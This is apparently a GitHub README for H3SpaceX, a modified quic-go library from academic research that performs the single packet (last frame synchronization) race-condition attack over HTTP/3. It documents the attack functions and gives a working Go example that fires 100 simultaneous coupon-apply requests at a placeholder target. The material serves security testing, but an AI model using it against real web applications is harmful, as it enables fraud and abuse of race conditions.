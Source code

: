 # H3SpaceX
H3SpaceX library is manipulated version of [quic-go](https://github.com/quic-go/quic-go) to 
enable the Single Packet Attack (Last Frame Synchronization) in HTTP/3 (QUIC). 
This library was part of an academic research with title of **Exploiting Race Conditions in Web Applications with HTTP/3**.

## Library Usage (how to exploit last frame synchronization - also known as single packet attack on HTTP/3)
There are two methods for exploiting last frame synchronization:

- Function `SendRequestsWithLastFrameSynchronizationMethod`:
- This function is for requests `which have body`!
- Function parameters:
  - first param gets an array of requests which need to be sent.
  - second param is for number of bytes which needs to be kept from end of the DATA frame. (at least & best 1)
  - third param is for number of milliseconds which library waits before sending last DATA frames
  - fourth param is for setting or unsetting Content-Length header. If false, the Content-Header will not be set, unless you set it directly in requests headers
- Function return:
  - a map of requests with value of their response
```go
func SendRequestsWithLastFrameSynchronizationMethod(quicConn quic.Connection,
	allRequests []*http.Request,
	lastByteNum int,
	sleepMillisecondsBeforeSendingLastByte int,
	setContentLength bool,
) map[*http.Request]*http.Response
```

- Function `SendGetNoBodyRequestsWithSinglePacketAttackMethod`:
- This function is for requests `which do *not* have body`!
- Function parameters:
    - first param gets an array of requests which need to be sent.
    - second param is for number of milliseconds which library waits before sending last DATA frames
- Function return:
    - a map of requests with value of their response
```go
func SendGetNoBodyRequestsWithSinglePacketAttackMethod(quicConn quic.Connection,
	allRequests []*http.Request,
	sleepMillisecondsBeforeSendingLastByte int,
) map[*http.Request]*http.Response
```

### Installation

    go get github.com/nxenon/h3spacex


### Steps to Call Functions
- Import libraries
- Create TLS config 
- Create QUIC config
- create a list of requests (use http3.GetRequestObject function) and append them into requests list
- Establish QUIC connection
- Call http3.SendRequestsWithLastFrameSynchronizationMethod `or` http3.SendGetNoBodyRequestsWithSinglePacketAttackMethod methods based on your needs
```go
package main

import (
	"crypto/tls"
	"fmt"
	"strings"

	"context"
	"github.com/nxenon/h3spacex"
	"github.com/nxenon/h3spacex/http3"
	"io"
	"net/http"
	"os"
	"time"
)

func main() {
	tlsConf := &tls.Config{
		InsecureSkipVerify: true,
		NextProtos:         []string{http3.NextProtoH3},
	}

	quicConf := &quic.Config{
		MaxIdleTimeout:  10 * time.Second,
		KeepAlivePeriod: 10 * time.Millisecond,
	}

	var allRequests []*http.Request

	headers := map[string]string{
		"Cookie":       "x=y",
		"Content-Type": "application/json", // sample
	}

	reqBody := "{\"couponValue\":\"Coupon1\"}"

	for i := 0; i < 100; i++ { // 100 requests
		req, err2 := http3.GetRequestObject("https://DOMAIN.COM/api/cart/apply_coupon", "POST", headers, []byte(reqBody))
		if err2 != nil {
			fmt.Println("Error creating request: ", err2)
			continue
		}
		allRequests = append(allRequests, &req)
	}

	dialAddress := "IP:PORT" // destination IP address and UDP port
	ctx := context.Background()
	quicConn, err := quic.DialAddr(ctx, dialAddress, tlsConf, quicConf)
	if err != nil {
		fmt.Printf("Error Connecting to %s. Erorr: %s", dialAddress, err)
		os.Exit(1)
	}

	allResponses := http3.SendRequestsWithLastFrameSynchronizationMethod(quicConn, allRequests, 1, 150, true)

	for req, res := range allResponses {
		fmt.Printf("for request to %s\n", req.URL)
		fmt.Println("+---Headers---+")
		fmt.Printf("Status Code: %d\n", res.StatusCode)
		for key, value := range res.Header {
			fmt.Printf("%s: %s\n", key, value[0])
		}
		fmt.Println("+---Body---+")
		body, err3 := io.ReadAll(res.Body)
		if err3 != nil {
			fmt.Println("Error reading response body:", err3)
			continue
		}
		fmt.Println(string(body))

	}
}

```


## Exploits Sample
See [Exploit](./exploit) Directory

## References
- [quic-go](https://github.com/quic-go/quic-go) as base library
